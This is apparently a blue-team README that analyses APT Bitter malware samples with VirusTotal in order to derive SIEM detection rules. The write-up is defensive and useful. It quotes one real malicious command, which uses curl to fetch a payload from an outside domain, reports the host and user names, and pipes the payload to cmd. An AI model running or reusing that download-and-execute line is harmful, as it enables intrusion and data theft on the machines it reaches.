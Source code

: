 # Efficient and Effective Way of Analyzing TTPs of Malware

## Introduction

In today's evolving cybersecurity landscape, analyzing malware and understanding its **Tactics, Techniques, and Procedures (TTPs)** is crucial to building effective defenses. This demonstration uses **Malware Bazaar** and **VirusTotal** to efficiently analyze malware samples, identify malicious behaviors, and extract key signatures.

**Malware Bazaar** is a vast repository of malware samples, contributed by the security community, researchers, and organizations. This analysis will use samples of **RAT** and **Stealer Malware** to uncover the methods and patterns they commonly employ, such as task scheduling, dropping executables in startup folders, and leveraging **PowerShell scripts** for executing commands or deploying shell scripts.

The analysis of these samples will take place on **VirusTotal**. On this well-established platform, files and URLs are scanned using various antivirus engines and behavioral analysis tools. VirusTotal will be useful in analyzing the malware samples obtained from Malware Bazaar, helping to highlight the techniques they employ and aiding in identifying key signatures that can be used to detect and mitigate threats by creating rules that will be integrated into **SIEM solutions**. By combining these tools, this demonstration aims to showcase a practical approach to efficiently recognizing critical malware behaviors for improved detection and response capabilities.

## Goals and Objectives

The main goal of this demonstration and documentation is to showcase an efficient method of analyzing **TTPs** of various malware samples attained from Malware Bazaar using VirusTotal. Additionally, this analysis aims to help my team improve the detection capabilities of the **SIEM solution** by identifying important signatures that can be used to create rules.

Initially, the **TTPs** of some malware samples used by **APT Bitter** (as shown in Figure 1) will be utilized to identify important patterns. I began with the analysis of **SHA256** `1cafe3979fbd529129440e058b8ed8e0d4e283325dee448816d3aa354f7c412a`, which is attributed as **Trojan-Downloader** because it downloads other stage malware such as **RAT** and **Info-Stealer Malware**.

Also, it can be seen in Figure 3 that the malware is using the following command  “ ['--headless
cmd /c "curl -o C:\\users\\public\\Music\\cdr.tr
colorsofnether.com/bgte.php?hy=%computername%BBB%username% & more
C:\\users\\public\\Music\\cdr.tr|cmd"']” to connect and download another malwar.Such patterns are used by malicious actors to secretly download and execute **RAT** and **info-stealer** malware, as these malwares can be easily detected if used directly.

Hence, a rule can be created to generate an alert upon any process that involves:
Command Prompt && Curl Statement && .php? string
Similarly, `C:\\users\\public\\Music\\` is the directory where the malware is dropped. Therefore, a rule can be created to generate an alert if files with extensions `.exe`, `.zip`, `.py`, `.ps1`, `.psm1`, `.lnk`, and `.vbs` are dropped or used in the `C:\\users\\public\\Music\\` directory.

![](img\ef-1.jpg)
![](img\ef-2.jpg)

![](img\ef-3.jpg)

## Analysis of Next Malware

The next malware that was analyzed is a **RAT** malware with info-stealing capabilities having the **SHA256** hash:
dcdae583da8a1b01a8ad0caef6a7f6f3b6f1eb6dd3298ac7d904200f52712446
This malware was downloaded using the 1st stage malware as described previously. Some of the URLs that were used by the malware are shown in Figure 4, and the highlighted domain should be blocked in the **Firewall**.
![](img\ef-4.jpg)

![](img\ef-5.png)

## Important Signature Identification

One important signature identified in this analysis is the usage of the **Command Prompt** for the execution of the malware, as shown in Figure 6. Thus, a rule can be created that should alert if the command prompt executes any executable file. 

While there may be some false alerts over time, the detection can be improved by optimizing the rules for better accuracy. This can include adding detections for any modifications in directories that malware typically alters to drop or delete files, along with changes in the **Registry**.

![](img\ef-6.jpg)

## Additional APT Bitter Malware Analysis

Some other **APT Bitter** malwares analyzed in this activity revealed more useful patterns, as shown in Figures 7 and 8. These patterns include:

- Scheduling tasks
- Using `hh.exe` to open `.chm` files
- Utilizing `msiexec` to execute `.msi` files

Therefore, similar rules can be created and integrated into the **SIEM** while testing them, to identify such malwares that are otherwise not easily detected by Anti-Malware Software.
![](img\ef-7.jpg)
![](img\ef-8.jpg)

## Conclusion   

This demonstration provides a practical way of using **VirusTotal** and **Malware Bazaar** to efficiently analyze various malware samples to identify important signatures as outlined in this document. This method can be applied to more malware; however, we utilized only a few **APT Bitter** malware samples to showcase the method. The document clearly demonstrates the usability of VirusTotal in analyzing **TTPs** of different malware. 

Overall, the blue team can use this method to analyze TTPs of many malwares in less time, allowing for the creation of various rules and optimizations for detection in **SIEM Solutions**.

## References

- [Malware Bazaar - APT Bitter Signatures](https://bazaar.abuse.ch/browse/signature/Bitter/)
- [VirusTotal](https://www.virustotal.com)

